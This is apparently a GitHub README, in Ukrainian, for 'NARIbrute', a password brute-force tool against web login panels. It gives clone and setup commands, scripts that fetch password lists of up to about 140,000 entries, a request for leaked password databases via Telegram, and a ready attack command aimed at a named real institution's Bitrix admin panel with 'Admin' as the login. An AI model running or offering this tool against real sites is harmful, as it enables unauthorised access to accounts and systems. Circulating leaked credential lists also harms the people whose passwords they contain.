 <h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Паролів зараз ~29000</h3>
<img src="https://i.ibb.co/bJ0f863/Screenshot-2022-06-16-16-35-09-31-84d3000e3f4017145260f7618db1d683.jpg" alt="icon">
Постійно буду обновлювати якщо хочеш допомогти кидай бази паролів у мій телеграм у фарматі .txt @samurai_gh<br>
Можна сказати що він "універсальний" якщо форма відправки така <br>
post login[username]<br>
post login[password]<br>
Ті хто шарать зрозуміють<br>
<h3 align="center">Установка:</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Завантажити базу 10000 паролів<br>
```
python2 full.py
```
Завантажити базу 140991 паролів<br>
```
python2 all.py
```
Якщо потрібно скачати базу за номером(Для того щоб розсортувати по машинах) . Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель/вхід<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```
